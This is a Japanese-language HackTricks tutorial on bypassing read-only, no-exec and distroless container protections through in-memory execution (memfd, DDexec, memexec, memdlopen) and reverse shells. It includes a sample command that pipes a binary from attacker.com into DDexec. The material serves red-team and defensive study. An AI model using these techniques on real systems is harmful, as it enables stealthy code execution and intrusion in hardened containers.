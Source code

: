# FS保護のバイパス: 読み取り専用 / no-exec / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です!** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより深く説明されています:

* [**DEF CON 31 - Linuxメモリ操作の探求: ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / no-execシナリオ

Linuxマシンが**読み取り専用 (ro) ファイルシステム保護**でマウントされることがますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行するのが簡単だからです:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**no-exec保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムに既に存在しないバイナリをダウンロードして実行することを複雑にします**（バックドアや`kubectl`のような列挙ツールなど）。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及したことに注意してください。インタープリタがマシン内にある限り、**任意のスクリプトを実行できます**。たとえば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

ただし、これはバイナリバックドアや他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**のような強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**fdを実行するファイルとして指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**で**デコードおよび解凍する**手順を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`にファイルを持つ**通常のfd**を作成しても機能しません。なぜなら、**no-exec保護**が適用されるため、実行することが許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**技術です。

したがって、プロセスによって実行されているアセンブリコードを**制御することができ**、**シェルコード**を書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから**自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)は、DDexecの自然な次のステップです。これは**DDexecシェルコードのデーモン化**であり、異なるバイナリを**実行したいとき**にDDexecを再起動する必要はなく、DDexec技術を介してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する**ことができます。

**memexecを使用してPHPリバースシェルからバイナリを実行する方法の例**は[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、**メモリにバイナリを読み込む**ための**簡単な方法**を提供します。依存関係を持つバイナリを読み込むことも可能です。

## Distroless Bypass

### What is distroless

Distrolessコンテナは、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**（ライブラリやランタイム依存関係など）だけを含み、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外します。

Distrolessコンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### Reverse Shell

Distrolessコンテナでは、**通常のシェルを取得するための`sh`や`bash`**さえ見つからないかもしれません。また、`ls`、`whoami`、`id`などのバイナリも見つかりません... システムで通常実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル**を取得したり、通常のように**システムを列挙**したりすることは**できません**。
{% endhint %}

しかし、もし侵害されたコンテナが例えばflaskウェブを実行している場合、pythonがインストールされているため、**Pythonリバースシェル**を取得できます。nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して**システムを列挙**することができます。
{% endhint %}

もし**`read-only/no-exec`**保護がなければ、リバースシェルを悪用して**ファイルシステムにバイナリを書き込み**、**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらを回避する**ことができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語の**リバースシェル**を取得し、メモリからバイナリを実行する方法の**例**は[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}
